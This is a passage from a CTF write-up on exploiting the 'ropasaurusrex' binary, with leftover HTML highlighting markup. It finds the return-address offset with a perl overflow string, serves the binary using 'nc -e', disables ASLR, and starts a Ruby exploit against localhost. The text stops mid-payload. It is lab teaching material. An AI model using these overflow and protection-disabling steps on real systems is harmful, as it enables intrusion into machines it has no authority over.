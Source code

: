 Simply speaking, it means that we overwrote the return address with the letter A 4 times (<tt>0x41414141</tt> = "AAAA").

Now, there are good ways and bad ways to figure out exactly what you control. I used a bad way. I put "BBBB" at the end of my buffer and simply resized it small and smaller until it crashed at <tt>0x42424242</tt> ("BBBB"):

```

<span class="lnr">1 </span>  ron@debian-x86 ~ $ perl <span class="Special">-e</span> <span class="Statement">"</span><span class="Constant">print 'A'x140;print 'BBBB'</span><span class="Statement">"</span> | ./ropasaurusrex
<span class="lnr">2 </span>  Segmentation fault <span class="PreProc">(</span><span class="Special">core dumped</span><span class="PreProc">)</span>
<span class="lnr">3 </span>  ron@debian-x86 ~ $ gdb ./ropasaurusrex core
<span class="lnr">4 </span>  <span class="Comment">#0  0x42424242 in ?? ()</span>
```

If you want to do this "better" (by which I mean, slower), check out Metasploit's pattern\_create.rb and pattern\_offset.rb. They're great when guessing is a slow process, but for the purpose of this challenge it was so quick to guess and verify that I didn't bother.

## Starting to write an exploit

The first thing you should do is start running <tt>ropasaurusrex</tt> as a network service. The folks who wrote the CTF used <tt>xinetd</tt> to do this, but we're going to use <tt>netcat</tt>, which is just as good (for our purposes):

```

<span class="lnr">1 </span>$ <span class="Statement">while </span><span class="Statement">true</span><span class="Statement">;</span><span class="Statement"> </span><span class="Statement">do</span> nc <span class="Special">-vv</span> <span class="Statement">-l</span> <span class="Statement">-p</span> <span class="Constant">4444</span> <span class="Statement">-e</span> ./ropasaurusrex<span class="Statement">;</span> <span class="Statement">done</span>
<span class="lnr">2 </span>listening on <span class="Statement">[</span>any<span class="Statement">]</span> <span class="Constant">4444</span> ...
```

From now on, we can use <tt>localhost:4444</tt> as a target for an exploit and see if it'll work against the actual server.

You may also want to disable ASLR if you're following along:

```

<span class="lnr">1 </span>$ sudo sysctl <span class="Special">-w</span> <span class="Identifier">kernel.randomize_va_space</span>=<span class="Constant">0</span>
```

Note that this will make your system easier to exploit, so I don't recommend doing this outside of a lab environment!

Here's some ruby code for the initial exploit:

```

<span class="lnr"> 1 </span><span class="PreProc">require</span> <span class="Special">'</span><span class="Constant">socket</span><span class="Special">'</span>
<span class="lnr"> 2 </span>
<span class="lnr"> 3 </span>$ cat ./sploit.rb
<span class="lnr"> 4 </span>s = <span class="Type">TCPSocket</span>.new(<span class="Special">"</span><span class="Constant">localhost</span><span class="Special">"</span>, <span class="Constant">4444</span>)
<span class="lnr"> 5 </span>
<span class="lnr"> 6 </span><span class="Comment"># Generate teh payload</span>
<span class="lnr"> 7 </span>payload = <span class="Special">"</span><span class="Constant">A</span><span class="Special">"</span>*<span class="Constant">140</span> +
<span class="lnr"> 8 </span>  [
```